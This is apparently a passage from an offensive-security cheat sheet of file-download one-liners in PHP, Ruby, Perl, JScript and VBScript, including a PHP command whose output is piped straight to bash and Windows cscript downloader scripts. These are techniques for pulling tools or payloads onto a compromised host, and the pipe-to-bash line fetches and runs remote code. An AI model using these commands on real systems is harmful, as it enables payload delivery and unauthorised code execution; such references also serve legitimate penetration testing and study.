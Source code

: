 #### php

File_get_contents()

```bash
php -r '$file = file_get_contents("[LINK]");file_put_contents("[FILE]",$file);'
```

Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("[LINK]", "rb"); $flocal = fopen("[FILE]", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

Pipe to Bash

```bash
php -r '$lines = @file("[LINK]"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

#### Ruby                                                                                                                    

```bash
ruby -e 'require "net/http"; File.write("[FILE]", Net::HTTP.get(URI.parse("[LINK]")))'
```

#### Perl                                                                                                                         

```bash
perl -e 'use LWP::Simple; getstore("[LINK]", "FILE");'
```

#### Javascript

1. create a file called `wget.js` and save the following content:

   ```javascript
   var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
   WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
   WinHttpReq.Send();
   BinStream = new ActiveXObject("ADODB.Stream");
   BinStream.Type = 1;
   BinStream.Open();
   BinStream.Write(WinHttpReq.ResponseBody);
   BinStream.SaveToFile(WScript.Arguments(1));
   ```

2. Execute from Windows:

   ```cmd
   cscript.exe /nologo wget.js [LILNK] [FILE]
   ```

#### VBScript

1. create a file called `wget.vbs` and save the following content:

   ```vbscript
   dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
   dim bStrm: Set bStrm = createobject("Adodb.Stream")
   xHttp.Open "GET", WScript.Arguments.Item(0), False
   xHttp.Send
   
   with bStrm
       .type = 1
       .open
       .write xHttp.responseBody
       .savetofile WScript.Arguments.Item(1), 2
   end with
   ```
